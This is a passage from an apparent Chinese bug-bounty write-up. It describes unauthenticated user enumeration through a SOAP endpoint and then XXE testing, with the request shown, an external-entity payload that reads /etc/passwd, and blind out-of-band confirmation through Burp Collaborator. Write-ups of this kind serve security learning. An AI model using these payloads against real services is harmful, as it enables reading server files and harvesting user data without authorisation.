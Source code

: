
```
POST /**/***/*** HTTP/1.1
Host: sub.domain.main-domain.com
Content-Type: text/xml; charset=utf-8
Content-Length: 337
<?xml version=&#34;1.0&#34; encoding=&#34;utf-8&#34;?>
<soapenv:Envelope xmlns:soapenv=&#34;http://schemas.xmlsoap.org/soap/envelope/&#34; xmlns:web=&#34;http://***.***/&#34;>
  <soapenv:Header/>
  <soapenv:Body>
    <web:ReadUserName>
      <id***>1</id***>
    </web:ReadUserName>
  </soapenv:Body>
</soapenv:Envelope>
```

  
因此，确认上述请求允许我枚举用户、验证有效ID并获取邮箱地址——完全无需认证。  
  
XXE可能性线索  
  
  
在注意到简单SOAP方法无需认证即可运行后，我开始好奇——后端使用的是什么XML解析器？  
  
  
我设计了一个经典的XXE载荷来测试本地文件读取能力。在I***Nome函数使用的sName字段中，我注入了：  
  

```
<!ENTITY xxe SYSTEM &#34;file:///etc/passwd&#34;>
```

  
结果很有趣，该请求产生了SOAP错误，响应中包含以下字符串：  
  

```
<faultstring>\etc \ hostname </faultstring>
```

  
虽然没有显示内容，但文件名本身被回显。这是XML解析器处理DTD但不返回内容的典型行为。换句话说：解析器接受了XXE载荷，但由于捕获块或严格的SOAP错误处理而未回显文件内容。无论如何，这足以确认XXE行为可能存在。  
  
  
深入：通过DNS验证XXE盲注  
  
  
为了进一步确认，我尝试通过DNS进行带外XXE（OOB-XXE）。我注册了一个Burp Collaborator并注入以下载荷：  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/iaASKxS11kaR4rCIXQnMOxLIs9MxuvRwHZzhw2nfP5oeUosicUNqpiad68kf3TgIrwx9oNdL9sO4edut5NBCL1bRw/640?wx_fmt=png&from=appmsg "")  
  
  
几秒钟后……  
  
  
Boom——Burp Collaborator收到了请求。后端尝试获取恶意DTD，确认XXE盲注确实可行。  
  
  
这一步至关重要。它告诉我后端Java服务存在以下问题：  
  
- 解析XML时未禁用外部实体加载。  
  
